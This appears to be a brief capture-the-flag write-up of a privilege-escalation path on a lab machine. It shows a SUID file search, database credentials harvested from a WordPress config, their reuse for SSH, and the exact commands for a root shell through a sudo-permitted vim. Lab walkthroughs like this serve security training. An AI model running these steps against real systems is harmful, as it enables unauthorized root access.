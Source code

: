 ### started by finding suid bit files
```bash
find / -user root -perm /4000 2>/dev/null  
```

### searching around /var/www/html, I find wp-config
```
/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

```

### we find c0ldd's credentials
user: c0ldd
password: cybersecurity

### use these credentials for ssh on port  4512
```
ssh c0ldd@10.10.226.162 -p 4512
```

### as c0ldd, i run *sudo -l*
(root) /usr/bin/vim
vim can be run as root
we can spawn a shell from within vim
```bash
sudo /usr/bin/vim
:set shell=/bin/sh
:shell
```

### root acquired